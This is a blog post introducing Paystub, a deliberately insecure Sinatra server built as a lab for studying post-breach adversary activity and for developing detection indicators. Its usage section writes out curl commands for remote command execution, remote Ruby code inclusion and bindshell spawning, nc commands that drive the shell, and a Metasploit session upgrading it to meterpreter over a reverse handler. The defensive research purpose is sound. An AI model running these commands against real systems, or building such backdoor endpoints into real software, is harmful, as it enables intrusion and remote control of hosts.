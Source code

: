 ```yaml
---
layout: post
date: 2017-02-04
title: "Paystub - A Playground for Post-Entry Maneuver"
description: "Part 1 - paystub-sinatra"
category: post-entry
tags: [paystub,post-exploit,cnd,ioc,i&amp;w]
excerpt_separator: <!--more-->
---
```

{% include JB/setup %}

Modeling and simulation are useful techniques for studying security, especially
when there's an absence of quality data. This is a fairly straightforward
exercise when considering the recon/attack phases of an intrusion: just fire
up your favorite scanner and tune for the desired effect. However, things are
not so straightforward when considering 'right-of-bang' activity. How does one
model adversary activity once the breach has occurred? Can we do better than
"just use the computer but be a bad guy"? How can we frame and focus the picture
to simplify the task of developing high-quality indicators and warnings?

<!--more-->

Rather than waiting on something bad to happen, a defender can create quality
indicators and warnings by modeling adversary COAs using the actual toolkits
where possible. Some up-front investment in an automation-friendly API allows
for rapid experimentation and precise measurement of recall and generalizability
of the derived models. Adopting this approach reduces the marginal costs for
supporting new toolchains.

So to support that task, let me introduce Paystub - a dead simple server-side
application for stubbing and running offensive payloads. The payloads could be
a RAT, meterpreter, some custom injection content, or anything else you'd like
to study in isolation. Once you have something to run, paystub exposes the
following standard endpoints:

* oneshot: invoke a shell command via GET/POST parameter
* upload: upload a file to a writable local directory via PUT
* rfi: read and eval ruby from a local or remote URI
* bindshell: fork/exec a shell with stdin/out/error bound to a network socket

Deployment options are pretty limited right now:

* local install: [git clone](https://github.com/ryanbreed/paystub-sinatra); bundle install
* remote install: [ansible playbook](https://github.com/ryanbreed/paystub-playbooks)

## Usage Examples

Seriously, you do not want to use this. It contains nothing but bad ideas.

### oneshot command execution

    curl "http://doomed:8000/oneshot?cmd=id"

    curl "http://doomed:8000/oneshot?cmd=aWQK&encode=base64"

    curl -XPOST -d 'cmd=aWQK&encode=base64' http://doomed:8000/oneshot

#### file upload via PUT

    cat $(which id) | curl -XPUT --data-binary @- "http://doomed:8000/upload/id.bin"

#### remote file inclusion

    curl "http://doomed:8000/rfi?url=http://remote-server/path/to/code.rb"

#### fork a bindshell

    curl "http://doomed:8000/bindshell?port=4455&runit=true"

    echo id | nc doomed 4455

    echo 'exit!' | nc doomed 4455

#### upgrade bindshell to meterpreter
    curl "http://doomed:8000/bindshell?port=4455&runit=true"

    ./msfconsole
    use payload/multi/handler
    set PAYLOAD ruby/shell_bind_tcp
    set RHOST doomed
    set LPORT 4455
    exploit

    [*] Started bind handler
    [*] Starting the payload handler...
    [*] Command shell session 1 opened ...
    ^Z

    Background session 1? [y/N]  y
    msf exploit(handler) > sessions -u 1
    [*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

    [*] Upgrading session ID: 1
    [*] Starting exploit/multi/handler
    [*] Started reverse TCP handler on attacker:4433
    [*] Starting the payload handler...
    [*] Transmitting intermediate stager for over-sized stage...(105 bytes)
    [*] Sending stage (1495599 bytes) to doomed
    [*] Command stager progress: 100.00% (668/668 bytes)
    [*] Meterpreter session 2 opened
    msf exploit(handler) >


##### Future Work
* [paystub-flask](https://github.com/ryanbreed/paystub-flask)
* paystub-php
